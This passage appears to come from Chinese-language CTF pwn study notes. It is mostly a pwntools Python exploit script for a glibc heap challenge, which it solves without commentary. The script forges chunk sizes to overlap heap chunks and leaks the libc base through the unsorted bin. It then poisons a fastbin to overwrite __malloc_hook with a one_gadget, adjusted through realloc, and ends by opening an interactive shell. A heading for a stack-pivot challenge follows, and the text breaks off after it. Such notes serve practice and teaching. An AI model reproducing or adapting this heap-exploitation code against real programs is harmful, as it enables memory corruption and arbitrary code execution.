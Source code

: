 ```python
add(0x10)
add(0x90)
add(0x10)
#gdb.attach(r)
malloc_hook=libc.symbols['__malloc_hook']
realloc_hook=libc.symbols['realloc']

edit(0,34,'a'*0x10+p64(0x20)+p8(0xa1))
edit(2,0x80,p64(0)*14+p64(0xa0)+p64(0x21))
delete(1)

add(0x90)

edit(1,0x20,p64(0)*2+p64(0)+p64(0xa1))

delete(2)

show(1)
r.recvuntil("content: ")
r.recv(0x20)
libc_base=u64(r.recv(6).ljust(8,"\x00"))-0x3c4b78
print(hex(libc_base))
add(0x80)

edit(1,0x90,p64(0)*2+p64(0)+p64(0x71)+p64(0)*12+p64(0x70)+p64(0x21))

delete(2)
edit(1,0x30,p64(0)*2+p64(0)+p64(0x71)+p64(malloc_hook+libc_base-0x23)*2)

one_gadgets=[0x45216,0x4526a,0xf1147,0xf02a4]
add(0x60)#2

add(0x60)#4
gdb.attach(r)
edit(4,27,'a'*11+p64(libc_base+one_gadgets[2])+p64(libc_base+realloc_hook+4)) 
gdb.attach(r)
#add(0x10)
add(0x60)#5
r.interactive()
```

# 7月15日

## 1.栈迁移

### gyctf_2020_borrowstack

main
